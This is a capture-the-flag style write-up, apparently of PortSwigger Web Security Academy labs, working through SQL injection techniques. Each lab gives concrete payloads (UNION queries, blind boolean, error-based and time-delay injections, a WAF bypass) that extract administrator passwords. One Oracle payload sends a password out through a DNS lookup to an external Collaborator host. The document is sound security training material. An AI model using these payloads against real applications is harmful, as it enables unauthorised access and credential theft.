






## SQL Injection
 **Definition:** SQL Injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

 **Blind SQL injection** occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.
 

***
### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
The first screen when we first access to the lab is shown below

We can try to access the 'Lifestyle' category and observe the URL

There is a parameter `category` in the URL, I guess we can change the value of this parameter for exploiting SQL injection vulnerability.

We can use quote `'` character, comment `--` character, `OR` operation and true statement `1=1` in the URL for this situation. The query will be
`SELECT * FROM products WHERE category=' OR 1=1--'`

And we will receive a notice for solving this lab

***

### Lab: SQL injection vulnerability allowing login bypass
To solve this lab,  we need to exploit SQLi vulnerability of the website for accessing the `administrator` role

Firstly, we should try the solution of the previous lab modifying username to `administrator'--` and press login

And we solve the problem after that

***
### Lab: SQL injection attack, querying the database type and version on Oracle

We need to show the version of the Oracle database to solve this lab and we have a cheatsheet about database version below

Firstly, we need to determine that how many columns can display on the screen, in Oracle, every `SELECT` statement need to specify a table to select `FROM`. There is a built-in table in Oracle called `dual` which can use when you do not want to query to any specific table.

So we can use `category=Gifts' UNION SELECT 'HI', 'THERE' FROM dual--` to determine the number of displayed columns, which is 2 in this situation. 

Finally, we can use this query to solve this lab
`category=Gifts' UNION SELECT BANNER, NULL FROM v$version--`

***
### LAB: SQL injection attack, querying the database type and version on MySQL and Microsoft

We still determine the number of columns which can display through this query
`category=Gifts' UNION SELECT 'ABC', 'XYZ'#`

Also have 2 columns can be displayed, continually read the cheatsheet

And the query to solve this lab is 
`category=Gifts' UNION SELECT @@version, NULL#`

***
### Lab: SQL injection attack, listing the database contents on non-Oracle databases

We need to find password of `administrator` from the category filter to solve this lab. In the first stage, using this query to know how many columns can be displayed. Because the database is not Oracle, therefore, we don't need `dual` table in this query.

`UNION SELECT 'ABC', 'XYZ'--`

There are 2 columns which are available. The next step is determining the table name which contains credentials.
`UNION SELECT table_name, null FROM information_schema.tables--`

As we can see that there many of tables are displayed on the screen. Let's filter and I found a table `users_jumcmr` which can contains credential potentially. 

We also know the which column this table has by this query.
`UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_jumcmr'--`

Finally, we use this query to get information from `username_mlwaps` and `password_qqesdw` columns.

`UNION SELECT username_mlwaps, password_qqesdw FROM users_jumcmr--`

***

### Lab: SQL injection attack, listing the database contents on Oracle

This lab is familar to the previous lab. We still need to find the password for `administrator` and the solely difference is the Oracle database. Let's determine the number of columns and it's still 2 in this lab. Remember we must use `FROM` statement when we create every query, and use `dual` table if you don't want to reference to any table.
`UNION SELECT 'ABC', 'XYZ' FROM dual--`

Finding the target table using `all_tables` is the next step.
`UNION SELECT table_name, null FROM all_tables--`

And we can see `USERS_IAPKRQ` can contain the credential. Let's exploit it.
`UNION SELECT column_name, null FROM all_tab_columns WHERE table_name='USERS_IAPKRQ'--`

As we can see there are 2 columns in `USERS_IAPKRQ` table that we need pay attention `USERNAME_VPVRKL` and `PASSWORD_LNSOYP`. Using this query to get information in these 2 columns.
`UNION SELECT USERNAME_VPVRKL, PASSWORD_LNSOYP FROM USERS_IAPKRQ--`

***
### Lab: SQL injection UNION attack, determining the number of columns returned by the query

This lab help us to determine the number of columns returned by the query using `NULL` value. We can first use this query and observe the returned error.
`UNION SELECT NULL--`

Try to add another `NULL` value to our query and it's still error.
`UNION SELECT NULL,NULL--`

We continually add `NULL` value to our query until we don't get an error.

`UNION SELECT NULL,NULL,NULL--`

After using 3 `NULL` values, we don't receive an error, so we can conclude that there are 3 colums returned by our query.

***
### Lab: SQL injection UNION attack, finding a column containing text
Like the previous lab, we also find the number of columns and it's still 3 in this lab. The next step that we need to determine the position in the query that a required string (`f0FrVa`) can be displayed. 

Try with the first position.

`UNION SELECT 'f0FrVa',NULL,NULL--`

Ooops, it's wrong, move to the next position.
`UNION SELECT NULL,'f0FrVa',NULL--`

And we solve the lab.

***
### Lab: SQL injection UNION attack, retrieving data from other tables
Continually finding number of columns which is 2 in this lab
`UNION SELECT NULL,NULL--`

And find the credentials contain in `users` table.
`UNION SELECT username, password FROM users--`

***
### Lab: SQL injection UNION attack, retrieving multiple values in a single column
We also need to find `username` and `password` in `users` table to solve this lab. We can firstly determine number of column using `ORDER BY` operator. Starting with `UNION ORDER BY 1--`

We can see nothing is displayed on the screen, continue with `UNION ORDER BY 1,2--` and the result is familar to the previous.
The next step is determining which column contain text.
- Use `UNION SELECT 'A', NULL--` => Get the internal server error.
- Use `UNION SELECT NULL, 'A'--` => Character `A` appear on the screen => The second position contain text.

Let's find which type of database this website use. I use the cheatsheet for this task.

`UNION SELECT NULL, version()--`

The database is **PostgreSQL 12.19**. We can use the two seperated queries to get `username` and `password` from `users` table.
- `UNION SELECT NULL, username FROM users--`
- `UNION SELECT NULL, password FROM users--`

But we can combine them by using `||` operator. It is reccomended in the cheatsheet.

So let's take a query.
`UNION SELECT NULL, username || password FROM users--`

Yahhh we got the credential, but it's hard to tell which character is the end of the username. We can add a random character betwwen username and password in the query to tackle this problem.
`UNION SELECT NULL, username || '_' || password FROM users--`

And now it's easier to observe.

***
### Lab: Blind SQL injection with conditional responses
This lab can be done via blind SQL vulnerability; therefore, we have to use different technique for solving it. Firstly, from the intercepted packet by using Burp Suite, we can see `TrackingID` value in cookie section which gather analytics about user usage. Let's modify it by true condition.
`TrackingID='4Tuwykwesm4i8oVb' AND '1'='1`
The full query in the backend is `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '4Tuwykwesm4i8oVb' AND '1'=1'`

We still see "Welcome back" string after execute this query.

And let's try with `TrackingID='4Tuwykwesm4i8oVb' AND '1'='2`

There is no "Welcome back" string because the query always false.
The next step that we need to determine wheather `administrator` user contain in `users` table.
`TrackingId=4Tuwykwesm4i8oVb' AND (SELECT 'A' FROM users WHERE username='administrator')='A`

And we can see this notice again, therefore `administrator` still exist. We can not display the password on the screen, so there are 2 following steps that we can get this credential.
- Determine the length of passsword
- Find each position in password by brute-force technique (`a-z` and `0-9`)

To determine the password, use `LENGTH(password)>x`,
**x** is the length of password that you guess. You can add 1 unit until we do not see "Welcome back" notice
When I use this query, the notice still appear
`TrackingId=4Tuwykwesm4i8oVb' AND (SELECT 'A' FROM users WHERE username='administrator' AND LENGTH(password)>19)='A`

But when i try this query, the notice diasappear
`TrackingId=4Tuwykwesm4i8oVb' AND (SELECT 'A' FROM users WHERE username='administrator' AND LENGTH(password)>20)='A`

=> Length of password is 20.

The last step is determine the character each position in password. The query can be
`TrackingId=4Tuwykwesm4i8oVb' AND (SELECT SUBSTR(password,1,1) FROM users WHERE username='administrator')='a`
`SUBSTR(password,1,1)` means you get the substring from first position (string start with 1 not 0) and length of substring is 1, which is 1 character. We can replace `a` to any character to get the right notice and replace the position in password you want to guess.

**BurpSuite Intruder** is a powerful tool to solve this problem. Firsly, we send the packet to Intruder and mark `a` character like this

In `Payloads` section, we can create a payload contain `a-z` and `0-9` character.

We can use `Grep-Match` function in `Settings` to know which character can receive reposne containing "Welcome back" string.

And now, just press `Start attack` button.

We can see with character `0`, there is a mark (`1`) in "Welcome back" column. Therefore, a first character is 0. Using this technique for the rest of password and then we got the entire password: `0j3j5rdc41gjhmm1x9pl` 

***
### Lab: Blind SQL injection with conditional errors

The hint for this lab is that the database use **Oracle**. So let's exploit it. 
This lab doesn't contain any content for blind SQLi, therefore we need to use conditional errors to solve this lab. Firstly, we can check wheather the website has a blind SQLi via this query. We add a single quote after `TrackingId` value.
`TrackingID=tEpJ3EBv5SLN5u2L'`
And we recieve internal server error later, that is a syntax error and the full query executing in the database is: 
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'tEpJ3EBv5SLN5u2L''` 
We have an extra quote and this is the reason of this error.

Let's try with `TrackingId='tEpJ3EBv5SLN5u2L''`
We do not receive the error and the full query is: 
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'tEpJ3EBv5SLN5u2L'''` 

=> **We can determine that this website has a blind SQLi vulnerability.**

We can use string concatenation operator `||` to execute subqueries.
`TrackingId='tEpJ3EBv5SLN5u2L'||(SELECT '')||'`

The query above get an error because of lack of `FROM` statement, which is forced for every query in Oracle. We can use `dual` table instead and we have no error then.
`TrackingId='tEpJ3EBv5SLN5u2L'||(SELECT '' FROM dual)||'`

We still know wheather a specific table exist via this query.
`TrackingId='tEpJ3EBv5SLN5u2L'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

This query does not return error because `users` table exists. Note that the `WHERE ROWNUM = 1 `condition is important here to prevent the query from returning more than one row, which would break our concatenation. `ROWNUM = 1` means we get the first row in the table.

We can use conditional error to determine wheather `administrator` user exist in `users` table
`TrackingId='tEpJ3EBv5SLN5u2L'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

This query return an error because `administrator` exist and `CASE` clause is executed (`1/0`) consequently.  
Note that the flow of this query start at `WHERE` clause, and `CASE` is executed for each row received in data returned by `WHERE` clause after that.

We can also determine the length of password by using this query

`TrackingId='tEpJ3EBv5SLN5u2L'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password) > x)||'`

We need to replace `x` by adding 1 unit until we do not get error. `x` will be the actual length when the error first disappear. In this case, the length of password is **20**.

Contiually using **BurpSuite Intruder** to guess character in each password's position. Payloads are `a-z` and `0-9` characters. `Grep and match` is "Internal Server Error".
`TrackingId=qcPpV1tYrrSSrfMq'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'`

After start attacking, we can receive a result like the image below. Number `2` in `Internal Server Error` is marked for an error, which mean this is the right character for the position we want to guess.

The entire password is `0v82f9rqhkpwz9deuga8`

***
### Lab: Visible error-based SQL injection
In the first stage, try with this simple query 
`TrackingID=A6vy5DzdqKoryoC0'`
And we receive an syntax error below

As we can see, when we send an error query to database, it will be displaed on the screen then.

Hmm, we can use comment character `--` to the previous query, we no longer receive an error
`TrackingID=A6vy5DzdqKoryoC0'--`

Let's try the previous technique to determine wheather `administrator` exists.
`TrackingId=A6vy5DzdqKoryoC0' AND (SELECT 'A' FROM users WHERE username='administrator')='A'--`

We recieve an error which mean the number of character containing in the query is limited.

Therefore, we need to use other techniques, which is `CAST` clause in query. We can try to use this query 
`TrackingId=A6vy5DzdqKoryoC0' AND CAST((SELECT 1) AS int)--`

The error said that the statement after `AND` need to return boolean value; therefore, we can add comparision operator `=` to solve this.
`TrackingId=x' AND 1=CAST((SELECT 1) AS int)--`

Send it and we do not receive the error anymore.

Try to leak the `username` from `users` table by this query.
`TrackingId=x' AND 1=CAST((SELECT username FROM users) AS int)--`

And we receive a limited character error again, we can try to delete the value of `TrackingID`
`TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`

And we receive another error, because of more than one row from `users` table returned

To solve this trouble, we can use `LIMIT 1`
`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`

And the value of `username` is leaked. We can use the same technique for `password` for `administrator`
`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

***
### Lab: Blind SQL injection with time delays
To solve this lab, we just modify `TrackingID` cookie by adding `pg_sleep(10)` 
`TrackingId=x'||pg_sleep(10)--`
Wait for 10 seconds and we solve this lab. The purpose for this behaviour is that you can determine the information from database wheather exist.

***
### Lab: Blind SQL injection with time delays and information retrieval
First, use this query to determine wheather the website exist Blind SQLi with time delay
`TrackingID=x'||pg_sleep(10)`

Or we can use `CASE` clause with time delay
`TrackingID=x'%3B SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`

Note that `%3B` is the encoded of semicolon `;` character. We must use `%3B` in **Burp Suite Repeater** to avoid confusion between cookie value and other part of `GET` packet. As we can see the picture below, when we use `;` the cookie value is divided into 2 parts.

To know wheather `administrator` exist, we need to replace `1=1` expression. The full query is 
`TrackingID=x'%3B SELECT CASE WHEN ((SELECT 'A' FROM users WHERE username='administrator')='A') THEN pg_sleep(10) ELSE pg_sleep(0) END--`
Or use can use the more simple query
`TrackingID=x'%3B SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

The next task that is determine password's length. 
`TrackingID=x'%3B SELECT CASE WHEN (username='administrator' AND LENGTH(password) = x) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

`x` is the length of password when we receive a reponse after 10 seconds. In this situation, `x` is 20.

Let's determine which character for each position in password.

`TrackingID=x'%3B SELECT CASE WHEN (username='administrator' AND SUBSTR(password,y,1)='z') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

- `y, 0 < y < 21` is the position in password
- `z` is character you guess for a specific position.

We can use **Burp Suite Intruder** to make it more easier. We need to add `$$` character for the character we want to brute-force with your payloads.

Note that the `Response received` column, which is the metric indicate time that server response after sending request. In this attack session, `t` character has a completely different value (10347) of `Response received` compare with the other character.

We continually replace the position in the query and start attack to get the entire password. 
The password is `tokspjo2dzja78iwivbh`

***
### Lab: Blind SQL injection with out-of-band interaction
The aim of this lab is causing DNS lookup via our query. The vulnerability contains in this lab is XXE (XML external entity injection). Let's look at a cheatsheet.

We need to use **Burp Suite Collaborator**. Note that we need to replace `http://BURP-COLLABORATOR-SUBDOMAIN/` to your collaborator domain.

Press send and we can poll the result in `Collaborator` tab.

***
### Lab: Blind SQL injection with out-of-band data exfiltration
We need to exfiltration password of `administrator` user by our query. Let's look at the payload for Oracle database below. The payload use an external entity to retrieve the data from web server.

Replace `BURP-COLLABORATOR-SUBDOMAIN`to our `Collaborator` domain, and change the query to get password. The full payload is shown below. Please remember encode the payload before sending it. You can use `Ctrl + U` shortcut.

`' || SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.xbc1ph43gnjjh3t10gh7ht2nwe25qxem.oastify.com/"> %remote;]>'),'/l') FROM dual--`

The result contains in a returned subdomain when we press `Poll` in `Burp Suite Collaborator`.

 

 As we can see in the **Description** contains a subdomain `iw420w7mmumpq5l6go85.xbc1ph43gnjjh3t10gh7ht2nwe25qxem.oastify.com`, and `iw420w7mmumpq5l6go85` is the password which we need to find.

 ***
 ### Lab: SQL injection with filter bypass via XML encoding
 The description for this lab said that there was a vulnerability in stock check feature; therefore, we need to click on a specific product to check this feature.

As we can see there is a `Check stock` button, use BurpSuite to intercept the request to check the action after we press it more detail.

We can see a XML documentation is sent in the request, and we can add exploitable query to this.
Let's start with `UNION SELECT NULL`

And our query is blocked by the WAF (Web Application Firewall), and `Hackvertor` extension is a hint to solve this problem.
Select `1 UNION SELECT NULL` and right click, select **Extensions -> Hackvertor -> Encode -> hex_entities** . Click **Send** and we bypass the WAF.

Let's try with another `NULL` value, we receive 0 units, which mean the query solely return a single column.

To get the `usernme` and `password` at the same time, we have to use concatenation character `||` to display both on the screen. We can modify the query to.
`UNION SELECT username || '_' || password FROM users`

And we receive the password for `administrator`.
